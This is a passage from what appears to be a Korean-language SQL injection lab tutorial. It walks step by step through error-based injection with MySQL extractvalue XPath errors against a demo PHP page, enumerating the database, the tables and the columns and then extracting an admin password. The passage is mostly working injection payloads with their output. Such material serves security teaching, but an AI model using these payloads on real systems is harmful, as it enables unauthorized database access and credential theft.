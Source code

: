 
2. XPath 기법을 통해 웹 애플리케이션이 통신중인 데이터베이스명 열거
```bash
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,schema_name)%20FROM%20information_schema.schemata%20LIMIT%203,1)))--%20

Employee Info

Error: XPATH syntax error: '::mydb'
``` 

3. 테이블명 열거
```bash
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,table_name)%20FROM%20information_schema.TABLES%20WHERE%20table_schema=%27mydb%27%20LIMIT%203,1)))--%20

Employee Info

Error: XPATH syntax error: '::users'
```

4. users 테이블을 대입하여 컬럼을 열거
```bash
# user 칼럼 확인
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,column_name)%20FROM%20information_schema.COLUMNS%20WHERE%20TABLE_NAME=%27users%27%20LIMIT%204,1)))--%20

Employee Info

Error: XPATH syntax error: '::user_id'

# password 칼럼 확인
https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(0x3a,column_name)%20FROM%20information_schema.COLUMNS%20WHERE%20TABLE_NAME=%27users%27%20LIMIT%206,1)))--%20

Employee Info

Error: XPATH syntax error: '::password'
```

5. 테이블명과 칼럼명 확인 -> users 테이블의 데이터를 열거하여 admin 계정 패스워드 획득
```bash

https://.../sqli_err_ex1.php?name=Faye%20Valentine%27%20AND%20extractvalue(rand(),concat(0x3a,(SELECT%20concat(user_id,0x3a,password)%20FROM%20users%20LIMIT%200,1)))--%20


Employee Info

Error: XPATH syntax error: ':admin:pass'
```
